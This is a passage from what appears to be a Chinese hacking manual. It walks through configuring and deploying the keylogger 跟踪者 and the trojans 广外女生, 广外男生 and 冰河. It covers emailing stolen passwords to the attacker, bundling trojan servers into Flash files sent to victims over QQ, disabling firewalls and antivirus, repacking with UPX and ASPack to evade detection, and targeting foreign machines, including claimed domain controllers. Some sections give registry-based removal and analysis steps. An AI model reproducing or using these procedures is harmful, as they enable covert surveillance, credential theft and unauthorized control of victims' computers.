2 分钟，在将开机密码、登录网络这些密码可能被记录下来之后将之关闭，这样就大大缩小了被发现的可能。

邮件配置：服务端程序被运行了之后，在默默地为我们工作。但是我们以何种方式获取程序记录下来的内容呢？这很简单，那就是发送邮件（如图1-6-3）！在邮件配置中选中“启用邮件发送功能”选项，然后选择 SMTP 邮件服务器。如果在下拉列表中没有相应的选项，我们也可以直接自行输入，设置好之后再输入自己的邮件地址。如果 SMTP 服务器需要进行身份验证的话，还必须选中“SMTP 服务器需要身份验证”选项，并且输入邮箱的用户名和密码。对于发送的邮件包含的内容也可以在这里进行配置，选中右侧的“正文中包含用户名”和“正文中含 IP 地址”两个复选项，在自定义标题中输入自己明白的内容，例如跟踪者记录之类的话，最后选中“邮件发送成功后自动删除记录文件”选项，这样也是为了提高隐蔽性。

记录配置：在默认情况下跟踪者记录的内容太多了，而事实上我们并不愿意获取那些无用的信息，因此必须对记录的内容进行必要的配置（如图1-6-4）。首先选中“窗口敏感字符”选项，然后在文本输入……



图1-6-3



图1-6-4

框中输入不记录的窗口。例如记事本、写字板、WPS、Word等。这样在服务端启用程序输入字符时将不进行记录。如果你仍然需要添加其他不记录的窗口，只需要用半角逗号隔开即可。除此之外，我们还可以设置记录键盘和鼠标的哪些键值，设置也很简单，只需要选中相应的选项即可。记录下来的内容到底保存在什么位置呢？我们只需要在记录文件的位置处输入文件存放的路径即可。如果怕记录文件过于庞大，我们还可以设置软件每启动几次后即清空记录，这样可以控制生成的记录文件大小。

定时维护：定时维护也是一个比较有用的设置（如图1-6-5）。如果我们只想记录指定时间键盘、鼠标的执行情况，那么在这里就可以做到。首先选中相应的星期，然后再设置选中要记录的时间段，这样跟踪者将只记录选中时间内键盘、鼠标的操作。

软件保护：虽然在上面的配置过程中我们也进行了保证服务端程序不被发现的设置，但是跟踪者仍然提供了软件保护项，以增加软件的安全性（如图1-6-6）。首先，为了保证跟踪者的正常运行，软件提供了设置文件关联。在这里一共有两个选项，即TXTFile、EXEFile，它们分别对应文本文件、可执行文件。例如，我们选中EXEFile，这样打开任何可执行文件都会自动检查跟踪者是否运行；如果没有运行则会启动它。除此之外，我们还可以修改跟踪者服务端程序的图标，选中“更改跟踪者图标”，然后按下后面的“+”按钮来选择其他的ICO图标文件。最后我们再选中“自动复制跟踪者到”选项，并且在下拉菜单中选择Windows目录或系统目录等。

图1-6-5　图1-6-6

到这里，我们的服务端程序基本上就配置好了。按下配置界面下方的“保存配置”按钮，则会出现提示配置成功的消息框（如图1-6-7）。

#### 二、服务端使用

经过漫长却不复杂的配置，我们就可以把生成的服务端程序通过一些捆绑软件，把它捆绑到一些动画或软件上发送给用户了。这样，只要他执行了该文件，程序就神不知鬼不觉地落户了。

如果你能够到用户的机器前的话，那么就可以绕过邮件发送直接查看。在运行了服务端程序的机器上按下设置的快捷键后，即可打开如图1-6-8所示的用户登录对话框；输入我们在配置过程中输入的密码之后，按下“确定”按钮就打开了服务端程序（如图1-6-9）。在该主界面上一共提供了4个按钮，这些按钮简洁明了，我就不再多讲了。但是要注意的是，如果我们在进行运行配置的过程中选中了“禁止软件激活”，则不能通过快捷键来调出服务端程序。

图1-6-7　图1-6-8　图1-6-9

看了上面的介绍你是不是有点胆颤心惊呢？那么，就快检查一下自己有没有被别人跟踪吧。打开注册表，定位到“HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run”以及“HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices”两处，查找其中的“SystemTask C:\Windows\TraceBoy2000.exe;”，将它们删除。要注意的是，这里的路径并不一定跟这个完全相同，因为可能在配置中修改了服务端程序文件名。最后，再根据这里的路径和文件名到相应的文件夹下将之删除。经过这两步的清理，就不再怕被跟踪了！

怎么样，如果你不小心被别人种了跟踪者，现在想起来是不是还觉得有点后怕呢？

### 1.7 木马“广外女生”的使用和分析

大家听过“广外女生一回头，倾倒整个男生楼”吧，但这里要说的不是校园歌谣，而是一种新的国产木马，它有个好听的名字，叫做“广外女生”。这个木马是广东外语外贸大学“广外女生”网络小组的作品，它可以运行于WIN98、WIN98SE、WINME、WINNT、WIN2000或已经安装Winsock2.0的Win95/97上。与以往的木马相比，它具有体积更小、隐藏更为巧妙的特点。可以预料，在将来的日子里它会成为继“冰河”之后的又一流行的木马品种。

要是你没用过，可以先看看下面的新手教程。“广外女生”一大特点是图标和界面LOGO（图1-7-1）比一般的黑客程序漂亮得多，“广外女生”网络小组所有软件LOGO均由一个叫PingPing的人制作。看来“广外女生”在宣传上是比较有特点的，值得其他软件作者借鉴。

#### 一、新手教程

“广外女生”的最新版本1.51a，大家可以在“广外女生”网络小组的主页 http://www.juntuan.com/gwgirl/download/GWGirl15.zip 下载。

第一步，下载“广外女生”并解压，解压后（图1-7-2）有一个名为gwg.exe的文件是客户端，那个flash.exe是你自己将来生成发给别人的服务端，不要乱点哦。

第二步，打开客户端（gwg.exe），找到“服务端设置”一页，如（图1-7-3），在“对方邮件通知列表”里点击右键添加（图1-7-4）E-mail，在里面填上你自己邮箱的SMTP服务器地址、你的邮箱名称。应当注意的是，你的邮件应当是不需要SMTP验证的，不然会不能发送成功。然后给你的被控端起一个名字，最后是给服务端文件起一个吸引人的名字，让别人很好奇，种木马就成功一半了。

按下“生成服务端”，你的邮箱等信息就会经过加密写进目标文件。好了，现在你可以把这个“目标文件”发给对方了！可以通过QQ或E-mail等软件和各种你想得到的方法，这个就看你的了：）。

最值得说的是，这个版本的“广外女生”可以自定义“安装后服务端文件名”、“DLL文件名”、“端口号”等，这种功能对一个木马来说无疑是增加了隐蔽性。如果你想服务端只有你一个人能控制，那最好加上“连接时验证密码”。除了能关闭所列出的防火墙和杀毒软件外，你还可以让服务端自动关闭你不想让对方开启的窗口。什么，QQ？IE？不会吧，太狠了吧。（图1-7-5）这就是对方打开服务端后的情形，很具有迷惑性的哦！在确认对方已经打开服务端后，就可以进入下一步，连上对方了。

获得对方IP后，在“起始IP”处填上对方的IP（图1-7-6），按“开始搜索”，就可以了，终止IP会被自动填上。如果超出“等待时限”的时间仍无法连接，则不会添加此IP。“广外女生”无法从局域网外连上共享连接（有端口转换）的局域网计算机，这一点请注意！

图1-7-3  
图1-7-4  
图1-7-5  
图1-7-6

连上对方后可能有必要修改一下对方的邮件通知信息，因为如果对方接了你的服务端多次，那么邮件通知的资料也会被添加多次。修改方法是在“服务端设置”一页（图1-7-3）中按“刷新列表”，然后就可以按鼠标右键弹出菜单来修改了，修改完毕后不要忘了按“上传列表”哦！你是可以添加多个不同（也可以是相同）的IP通知邮箱的。

如果想更新对方的服务端，就有点问题了。首先，某些旧版本的服务端是不支持更新的！然后，设置服务端并存为“gdufs.exe”，也就是把目标文件做为“gdufs.exe”，按“修改文件”后，最后才是按“更新对方服务端”。更新后，可能在一段时间之内无法再连上对方，可以先关闭客户端，稍等后重新连上去。记得刷新一下对方的邮件通知列表，看看是否真的更新了。如果不能更新，也有另外一个办法：首先，想办法让对方运行以下命令：`c:\gdufs.exe -install`，`"c:\gdufs.exe"`是你要事先传给对方的新的服务端文件。至于如何让对方运行，方法有很多种，比如说建一个批处理文件传给对方之类的。然后，在客户端“进程管理”一页中关掉对方的服务端，通常是像“c:\windows\system\diagcfg.exe”这样子的，然后就等待，直到可以再与对方连接为止，必要时也是可以先关掉客户端。

接下来我们会逐项讲解“广外女生”的功能。首先是“文件共享”（图1-7-7）。所谓“文件共享”并不是指Windows的共享，但也差不多，可以自由地浏览/上传/下载文件，还可以对对方的文件进行删除、改名、设置属性等操作。删除文件前，应当先去掉文件的只读、系统、隐藏等属性，删除目录只能删空目录。“打开选定文件”这一个功能是远程打开文件，即文件是在对方计算机上打开，而非自己的计算机。各个操作是不能同时进行的，除非你同时开着几个“广外女生”客户端操作。现在的版本还不能同时对多个文件或文件夹操作，也没有模拟剪贴板的操作。

图1-7-7

在这一页中，还可以进行一些其他的操作，虽然这些操作不是针对文件的，但对象也一样是你在这一页中所选定的计算机。这些功能有：

- “打开指定文件/命令”，与打开文件一样，这也是远程的操作，功能和开始菜单中的“运行”一样，但不支持批处理的命令，以后可能还会有一个批处理的命令操作。
- “向对方发送信息”，这个命令应该很容易理解了吧。新版本的服务端会自动将弹出的窗口置于对方的活动窗口中，如果对方不按确定，是无法继续工作的。
- 最后的是“关闭对方计算机”，也不用说了吧。

第二页是“远程注册表”（图1-7-8），操作方法和注册表编辑器极为类似，只是不能编辑二进制值。在这一页中，可以收集得到很多信息，比如对方的CPU信息。注意：如果不熟悉注册表，最好不要随意修改这一页的内容。

第三页是“进程管理”（图1-7-9），在这一页可以关掉选定的进程/线程/窗口。关闭窗口相当于按这个窗口右上角的关闭按钮，由于有的窗口会出现“是否保存”之类的提示，因此不一定能关闭，对于线程的情况也是如此，但线程通常都能被关闭。

图1-7-8  
图1-7-9

通常，如果一个线程有窗口的话，其中一个是作为主窗口，如果主窗口关闭，整个线程也会关闭。进程也有同样的情况，每个进程的第一个线程是主线程，主线程关闭，整个进程也就会关闭。

除了“关闭”命令外，其他的四个命令都是只对窗口起作用，通常都只是拿来玩的，不过如果是在本机上这些命令也挺有用，比如说本来某个软件的按钮处于“变灰”的状态，无法起作用，用“激活”命令激活后就可以了。

第五页是“屏幕控制”（图1-7-10），这一页的命令与前几页不同，操作的对象是在“添加主机”一页的“IP搜索”列表中选定的计算机。这一页中的命令都比较简明，唯一要说明的是“屏幕控制”。由于“屏幕控制”使用JPEG压缩，如果要做到近似实时图像传输，首先一个必要条件当然是高网速了，但对对方的CPU也有不小的要求，特别是网速越高，对方的计算机就越会感觉到自己的速度变慢！暂时这个问题“广外女生”还无法解决，除非能有更好的图像压缩方法。

图1-7-10

看对方在干什么也不错啊，这个PLMM是帮我测试的，你可以看到她一边在聊天还听MP3，桌面也很漂亮吧。QQ最上面的头像就是我，看清楚了吗？呵呵。

最后要说明的一页是“密码记录”。其原理就是服务端监控有没有密码窗口的出现，如果有，就把整个窗口的内容记录下来。“广外女生”记录密码速度很快，不会减慢被监控计算机的速度，而且记录的密码理论上来说是没有错漏的。但服务端不会记录没有文字（长度为0）的窗口部件，又或者是文字长于32个字符的窗口部件，以减少记录的长度，因为通常这些窗体都不能提供任何有用的信息。另外有一点，由于诸如网页中的密码窗体不是真正的Windows窗体，因此“广外女生”无法记录，只能使用具有键盘记录功能的监控软件。

客户端连上服务端后，就可以在这一页中获取服务端记录下来的密码。如果觉得记录太多，可以清空对方的记录。在获取记录的过程中，窗口记录文本框处于“变灰”的状态，完成获取后会自动激活。如果密码太多而一时取不完，或者想放弃操作的话，可以按“停止获取”，中断获取的操作。“停止获取”并不是停止服务端的密码记录。

基本功能就是这些了，我觉得“广外女生”木马功能已经十分全面了。尤其突出的是“广外女生”的客户端只有90多K，“冰河”可是有260多K啊。“广外女生”的默认端口号也很有意思，是6267，而“冰河”是7626，嘿嘿，正好倒过来。

#### 二、“广外女生”分析

一般木马的服务器端一旦运行之后都会对注册表以及系统文件做一些手脚，所以我们在分析之前就要先对注册表以及系统文件做一个备份。首先打开RegSnap（监视注册表以及系统文件变化的工具），从File菜单选New，然后点OK。这样就对当前的注册表以及系统文件做了一个记录，一会儿如果木马修改了其中某项，我们就可以分析出来了。备份完成之后把它存为Regsnp1.rgs。

然后我们就在我们的电脑上运行“广外女生”的服务器端，不要害怕，因为我们已经做了比较详细的备份了，它做的手脚我们都可以照原样改回来的。双击gdufs.exe，然后等一小会儿。如果你正在运行着“天网防火墙”或“金山毒霸”的话，应该发现这两个程序自动退出了，很奇怪吗？且听我们后面的分析。现在木马就已经驻留在我们的系统中了。我们来看一看它究竟对计算机做了哪些操作。重新打开RegSnap，从File菜单选New，然后点OK，把这次的snap结果存为Regsnp2.rgs。从RegSnap（图1-7-11）的File菜单选择Compare，在First snapshot中选择打开Regsnp1.rgs，在Second snapshot中选择打开Regsnp2.rgs，并在下面的单选框中选中Show modified key names and key values。然后按OK按钮，这样RegSnap就开始比较两次记录有什么区别了。当比较完成时会自动打开分析结果文件 RegSnap result file Regsnp2-Regsnp1.htm。

我们注意到，RegSnap result file Regsnp2-Regsnp1.htm中有：

```text
Summary info:
Deleted keys: 0
Modified keys: 3
New keys: 1
```

表示的意思就是两次记录中，没有删除注册表键，修改了3处注册表，新增了1处注册表。

```text
File list in C:\WINDOWS.000\SYSTEM\*.*
Summary info:
Deleted files: 0
Modified files: 1
New files: 1
..........

New files
diagcfg.exe Size: 99,840, Date/Time: 2001年10月18日 23:26:14
______________

Total positions: 1
```

图1-7-11

这一段话的意思就是，在`C:\WINDOWS.000\SYSTEM\`目录下面新增加了一个文件diagcfg.exe。这个文件非常可疑，因为我们在比较两次系统信息之间只运行了“广外女生”这个木马，所以我们有理由相信diagcfg.exe就是木马留在系统中的后门程序。不信的话你打开`C:\WINDOWS.000\SYSTEM\`看一下，会发现其中有一个`DIAGCFG.EXE`的程序，这就是木马的原身。但这个时候千万不要删除`DIAGCFG.EXE`，否则系统就无法正常运行了。

木马一般都会在注册表中设置一些键值，以便以后在系统每次重新启动时能够自动运行。我们再来看看RegSnap result file Regsnp2-Regsnp1.htm中哪些注册表项发生了变化，凭借经验应该注意到下面这2条了：

```text
Modified keys
HKEY_LOCAL_MACHINE\Software\Classes\exefile\shell\open\command\@
  Old value: String: "\"%1\" %*"
  New value: String: "C:\WINDOWS.000\SYSTEM\DIAGCFG.EXE \"%1\" %*".
..........
New keys
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices\Diagnostic Configuration
  Value: String: "C:\WINDOWS.000\SYSTEM\DIAGCFG.EXE"

______________
Total positions: 1
```

这个键值由原来的“`"%1" %*`”被修改为了“`C:\WINDOWS.000\SYSTEM\DIAGCFG.EXE "%1" %*`”，因为其中包含了木马程序`DIAGCFG.EXE`所以最为可疑。那么这个注册表项有什么作用呢？它就是运行可执行文件的格式，被改成`C:\WINDOWS.000\SYSTEM\DIAGCFG.EXE "%1" %*`之后，每次再运行任何可执行文件时都要先运行`C:\WINDOWS.000\SYSTEM\DIAGCFG.EXE`这个程序。

原来这个木马就是通过这里做了手脚，使自己能够自动运行，它的启动方法与一般普通木马不太一样。一般的木马是在`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run*`键里增加一个键值，使自己能够自启动，但这种方法被杀毒软件所熟知了，所以很容易被查杀。而“广外女生”这个木马就比较狡猾，它把启动项设在了另外的位置。

现在我们已经掌握了这个木马的驻留位置以及在注册表中的启动项，还有重要的一点就是我们还要找出它到底监听了哪个端口。使用DOS命令“netstat”可以轻松地实现这一点。在命令行中运行“netstat -an”，可以看到：

```text
TCP    0.0.0.0:6267    0.0.0.0    LISTENING
```

我们可以看到，木马程序监听在TCP的6267号端口上了。要是你是WINNT或WIN2000的系统，使用fport.exe来检查“广外女生”的监听端口更为方便。目前为止基本掌握了“广外女生”这个木马在我们系统中的动作，现在我们可以轻而易举地清除它了。

#### 三、“广外女生”的清除

由于1.5A版本提供了“卸载对方服务器端”的功能，我们可以很方便地把“广外女生”从系统中清除出去。应当注意的是，卸载后文件`C:\WINDOWS.000\SYSTEM\DIAGCFG.EXE`仍需要手工删除。若是早期版本，是没有“卸载对方服务器端”功能的，下面介绍一种手工彻底清除“广外女生”的方法。注意：这个步骤的次序不能颠倒，否则可能无法完全清除掉此木马。

- 1. 由于该木马程序运行时无法删除该文件，因此启动到纯DOS模式下，找到System目录下的`Diagcfg.exe`，删除它。
- 2. 由于`Diagcfg.exe`文件已经被删除了，因此在Windows环境下任何EXE文件都将无法运行。我们找到Windows目录中的注册表编辑器`Regedit.exe`，将它改名为`Regedit.com`。
- 3. 回到Windows模式下，运行Windows目录下的`Regedit.com`程序（就是我们刚才改名的文件）。
- 4. 找到`HKEY_LOCAL_MACHINE\SOFTWARE\Classes\exefile\shell\open\command\`，将其默认键值改成`"%1" %*`。
- 5. 找到`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices`，删除其中名称为“Diagnostic Configuration”的键值。
- 6. 关掉注册表编辑器，回到Windows目录，将`Regedit.com`改回`Regedit.exe`。
- 7. 完成。

由于有些人对“广外女生”网络小组的这种强行关闭防火墙的方法有异议，“广外女生”网络小组决心开发出针对现在所有防火墙漏洞而做的、真正的穿透防火墙（不止针对天网）的木马。软件名称定为“广外男生”，我们可以对“广外男生”的界面先睹为快（图1-7-12）。

#### 四、总结

木马“广外女生”的主要特点是：注册表编辑及任务管理界面直观，易于操作，任务管理器功能强大，被监控端所运行的任务一目了然；服务端程序体积小，服务端占用系统资源少，最多时只占用3M的内存，平时不会影响服务端计算机的速度；隐蔽性好，不容易被发现；IP搜索的资料存放有保密性；能利用WINDOWS的漏洞使中国国内流行的“天网防火墙”和“金山毒霸”失去作用，说明防火墙也有被“控”和被“杀”的可能。值得关注的是，本来木马的天性即是要潜伏，而“广外女生”的做法刚好相反。

图1-7-12

不明不白地关闭了，那还不是暴露了机器里藏着木马么？所以“广外女生”这个最大的“卖点”其实又是“她”最大的缺陷。作为广东外语外贸大学“广外女生”网络小组的处女作，木马“广外女生”继续修改完善后还是有机会成为优秀的远程控制程序的。

### 1.8 广外女生变男生——木马“广外男生”使用和分析

广外男生运用了“反弹端口原理”与“线程插入”技术，且基于成功的“广外幽灵”的先进技术，服务端运行时隐藏了进程！所有网络操作均插入到其他应用程序的进程中完成。也就是说，即使受控端安装的防火墙拥有“应用程序访问权限”的功能，也不能对广外男生的服务端进行有效的警告和拦截，使对方的防火墙形同虚设！因此，大大加强了“广外男生”的隐藏性。而“广外女生”其实破防火墙的方式为直接“杀死”，不过太容易被发现啦。且“广外男生”运用了主动连接技术，无论双方在何处，只要二者在Internet上，服务端会主动连接上客户端。而“广外女生”运用的大多是手动连接方式（邮件更新服务端方式也需要手动更新），除非知道对方此时的IP地址，才能连上，这使得服务端和客户端的连接存在很大的局限性和灵活性。其新特性还表现在：客户端高度模仿Windows资源管理器，除了全面支持访问远程服务端的文件系统，也同时支持通过对方的“网上邻居”访问对方内部网其他机器的共享资源！强大的文件操作功能，可以对远程机器进行建立文件夹、整个文件夹（连子目录、文件）一次删除，支持多选的上传、下载等基本功能。同时，特别支持高速远程文件查找，而且可对查找结果进行下载和删除的操作。更重要的它仍然是免费软件，大家可以不受限制地下载和使用。

现在就来介绍它的具体使用吧。下载后解压缩，你会发现里面只有两样东西，一个应用程序和一个帮助文件，那应用程序就是广外的客户端。点击运行主界面，外型一改“广外女生”的可爱，给人以清新、朴实的感觉，如图1-8-1所示。

#### 一、客户端配置

我们先配置好客户端吧。运行菜单设置—>客户端设置，弹出设置对话框，我们首先确定客户最大连接数和客户端连接端口；默认连接数为30，默认连接端口为80，如果你80端口被占用了，可以使用其他端口，这些都根据自己的实际情况配置。IP地址段的过滤：有时候不想让某个网段的机器访问或只想让某个网段的机器连接你的客户端的话，可以在这里输入起止IP段。单击下一步来到第二页，此页是服务端和客户端连接方式的配置，如果你有固定IP的话，勾上“客户端处于静态IP（固定IP选项）”，这样服务端随时都可以连到该固定IP机器上，这种连接方式适合两台机器在同一局域网或客户端IP固定的用户。可一般用户的IP都是动态，所以我们勾上“使用HTTP网页IP通知”选项。来到下一页，IP通知文件设置页面，如图1-8-2所示。

图1-8-1  
图1-8-2

对需填写的各项说明一下，客户端IP：当前的客户端IP地址。端口：当前男生客户端正在使用的端口。加密密码：把你的IP和端口加密的密码，由于算法的需要，请使用12位以内的数字作为密码。目标文件：就是目标生成的含有你的IP和端口的HTM文件，你不需要写上路径，程序会自动把该文件生成在男生目录下。以上内容配置好后，单击“下一步”来到FTP服务器设置页面，这步很重要，关系到服务端能否顺利地找到客户端的IP地址并连接，也就是能否主动连接的关键，以下是我的配置，如图1-8-3所示。

图1-8-3

FTP地址：你的FTP服务器（还要能提供HTTP服务）的IP地址。端口：FTP端口，一般都是21。用户名和密码：你的FTP登录用户名和密码。发布目录：你的网页所放的目录。上传后文件：上传后的文件是否要改名，默认值是和你本地的IP文件同名。配置好后，单击“下一步”，客户端就会自动检测能否跟你的FTP连接。

连接成功后，客户端就会经常把你的IP信息发送到FTP服务器上保存。服务端连接时则通过HTTP读取客户端发送到FTP服务器上的动态IP信息，并连接。如图1-8-4所示。

图1-8-4

以上为我们的IP信息，为了安全起见，数据实现了加密。服务端读取信息，并解码、连接，这样就实现了主动连接方式。

#### 二、服务端配置

打开菜单设置—>生成服务端，弹出软件声明对话框，点击“同意”，来到下一页服务端的常规设置，如图1-8-5所示。

图1-8-5

EXE文件名：你的服务端运行后拷贝到系统目录中的EXE文件名。DLL文件名：你的服务端运行后拷贝到系统目录中的DLL文件名。注册表启动项：服务端在注册表中的自动项的名称，你一般可以在`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`中找到该启动项。选项：服务端运行时显示运行标识并允许对方退出，此项选中后，连接时在服务端的系统托盘处出现运行标志，并允许对方主动断开连接。此功能多用于朋友间进行文件传输和数据交流时，如果你是玩木马的话，就不用勾上了吧。单击“下一步”来到网络设置，如图1-8-6所示。

在客户端配置时如果你选择固定IP连接方式，此时你只要选中选项静态IP，填上你客户端的固定IP和你设定的连接端口。因为前面我们选择的是FTP连接方式，所以这里我们只要填上客户端发送到FTP服务器上的IP信息的URL。单击“下一步”，填上生成文件的路径后，点击“完成”，就会在我们的电脑上生成服务端文件。这样，服务端我们就配置好了。

好了，我们来看看它的远程控制功能。你现在要做的就是把服务端发给你朋友，无论你用什么方法，只要他点击运行了服务端，他的电脑就会主动连接上我们。看看我可怜的朋友点了我给他的服务端后，如图1-8-7所示。

图1-8-6  
图1-8-7

怎么有3个相同服务端？看来他不只点了一次，是点了3次。连接后我们能做的事情就多了，如图1-8-7我们运用的是远程桌面功能，这样就能看见你的朋友在干什么啦。广外男生的功能还有：文件共享、远程注册表管理、进程和服务管理、远程桌面。由于和其他远程控制软件功能差不多，我就不多说了；大家可以看其帮助文件，帮助文件才是最好的教程。

#### 三、服务端卸载

- 用广外男生自带的卸载功能来卸载服务端，方法是：当服务端连上你的客户端之后，到“进程与服务”的页面，点击工具栏上最右边天使的图标，就可以卸载男生的服务端。
- 手动卸载
  - 打开系统注册表键值如下：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`，需要查看广外男生运行的EXE文件。该键值并没有完整运行路径，因为可执行文件在system32文件夹中，可以直接运行。删除该自启动键值，然后在system32系统文件夹中删除相应的EXE文件。
  - 此步骤很重要，虽然以上删除了自启动项，但下次还会启动的。因为广外男生修改注册表使dll自动运行，而且运行之后dll插入explorer进程中，dll是不可以删除的，即使你终止explorer进程，dll还是会被插入到其他进程中。此步骤你需要知道广外男生dll文件名称，你可以在system32系统文件夹中查找，文件大小为116KB或者115KB。找到广外男生dll之后复制其文件名称，然后打开系统注册表，点击“编辑”->“查找”，然后输入你刚复制的dll文件名称，找到此键值之后删除即可。因为广外男生运行之后随机写注册表使dll能够自动运行，注册表位置是变化的。  
    注意：一定要利用dll文件名查找整个注册表且删除键值，使广外男生不能自动运行。
  - 重新启动计算机之后删除system32系统文件夹中的广外男生DLL，文件大小为116K或115K。

对于广外女生来说，采用了新的隐藏技术，使程序整体的性能有了提升，但控制功能上并没有太多改进。希望广外程序员能在下一版本有所改进。最后，希望大家把它用在正途上。

### 1.9 木马全接触

木马程序，对于一个初学黑客技术的菜鸟来说几乎是必不可少的工具，就是对于一些高手来说也是一件很有用的工具。能够熟练使用木马有时可以得到意想不到的收获！关于木马的介绍的文章也已经有很多，我也就不再多说。但是，不少的菜鸟经常在问，木马怎么用。其实这是一个很简单的问题。什么，你也不知道啊！那么现在我们就来和它进行一次亲密的接触吧！现在我就以大名鼎鼎的冰河为例来讲一下木马的用法。

工欲善其事，必先利其器！首先我们要对木马进行修改！也许有很多的朋友觉得不解，为什么要修改呢？因为任何一个优秀的木马都会被杀毒软件认为是病毒，如果你就这样贸然给别人放进去，杀毒软件可绝不手软啊！那根本不能起到任何的作用。那怎样修改呢？好，现在我就来讲一下木马的修改！我们从网上下载下来的冰河有两个程序，名字分别是G_client和G_server，以2.2版为例，其客户端G_client为454K，而服务端G_server为260K，如果不是你最好不要使用！因为里面很有可能被别人加了什么东西！G_server千万不要点啊！什么？你已经点了？马上再告诉你怎么解决！

现在我们下载一个UPX，在命令提示符下输入：`upx -d G_server.exe`，看看我们的冰河发生了什么变化了呢？现在它的体积是677K！同样的道理，我们把G_client解压看看有多大！是不是1288K呢？（如图1-9-1）

现在我们用另一种压缩软件ASpack来压缩它，干什么？你马上就知道了！（如图1-9-2）

图1-9-1　图1-9-2

怎么样？现在看看我们的冰河有多大啊？261K！接下来，我们就用最新版的瑞星来看看吧！（如图1-9-3）

图1-9-3

怎么样？是不是很吃惊呢？这可是最新的瑞星啊！也许你要问为什么不用诺顿，现在诺顿绝对不可能查出来！不信啊，你试试看啊！再废话一句，这里使用冰河的另一个原因就是因为它是国产的，不少的国际型杀毒软件对于它的防范还是比较疏忽的！而国外的机器基本都是一些什么诺顿的！你把这样的冰河给它们种进去，它们根本拿你没有办法！

对不起，还有一点忘记说了，在用ASpack压缩之前，你要用VC把冰河的一些东东给改了，比如万能密码啊，里面的一些所谓的特征代码啊，比如：冰河、木马、binghe等都替换成别的字符串吧！修改的方法我就不多说了！说到修改资源啊，资源修改器最好的是VC，它的功能很强大哦！如果你是菜鸟的话建议使用ResHacker，这也是一个很不错的资源修改器！可以直接修改资源，功能多多！你自己试试看啊！

现在我们的任务就是怎样把木马送给别人了，首先我们来把冰河和Flash动画捆绑在一起吧！好了，你看看现在的图标和一般的图标有什么不一样呢？（如图1-9-4）

然后我们就要把木马送给一些可怜的人了，在QQ上说有什么好的Flash，然后呢，就不用我说了吧！现在就是该我们来控制了，我们打开客户端，扫描一下就可以找到很多的机器了（先声明一下啊，我把所有的IP都涂掉，因为这几个是域控制器，不过我可以保证，绝对不是国内的！）。（如图1-9-5）

图1-9-4  
图1-9-5

看见了吗？现在我们就可以控制它们了！不过，为了安全我们先把默认端口给改了，然后加一个访问密码！对服务端进行一些设置，再然后，这台机器就归你所有了！（菜鸟如果要练习的话，千万不要找国内的机器啊！找一些什么JP啊！什么TW啊！都是不错的选择！）

